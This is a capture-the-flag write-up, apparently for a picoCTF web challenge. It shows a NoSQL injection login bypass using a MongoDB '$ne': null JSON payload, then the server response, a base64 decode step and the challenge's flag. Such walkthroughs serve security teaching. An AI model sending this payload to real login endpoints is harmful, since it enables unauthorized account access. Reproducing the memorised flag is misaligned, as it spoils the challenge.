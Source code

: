 ## Challenge 🧩

Can you try to get access to this website to get the flag?</br>
Can you log in?

Author: NGIRIMANA SCHADRACK</br>
Points: 200

Hints:

1. Not only SQL injection exist but also NoSQL injection exists.
2. Make sure you look at everything the server is sending back

## Solution 🕵️‍♂️

The app uses MongoDB, so we have to craft a query that will retrun seed user. </br>

`$ne` selects the documents where the value of the specified field is not equal to the specified value. This includes documents that do not contain the specified field.

So Request Payload will be

```json
{
  "email":{"$ne":null},
  "password":{"$ne":null}
}
```

Server Response for the POST request to /login

```json
{
   "email":"joshiriya355@mumbama.com",
   "firstName":"Josh",
   "lastName":"Iriya",
   "password":"XXXXXXXXXXX",
   "token":"cGljb0NURntqQmhEMnk3WG9OelB2XzFZeFM5RXc1cUwwdUk2cGFzcWxfaW5qZWN0aW9uX3h4eHh4eHh4fQ==",
   "__v":0
}
```

```bash
┌──(user㉿shell)-[~]
└─$ echo "cGljb0NURntqQmhEMnk3WG9OelB2XzFZeFM5RXc1cUwwdUk2cGFzcWxfaW5qZWN0aW9uX3h4eHh4eHh4fQ==" | base64 -d
```

Reference:
[ne Operator](https://www.mongodb.com/docs/manual/reference/operator/query/ne/#mongodb-query-op.-ne)

## Flag 🚩

`picoCTF{jBhD2y7XoNzPv_1YxS9Ew5qL0uI6pasql_injection_xxxxxxxx}`
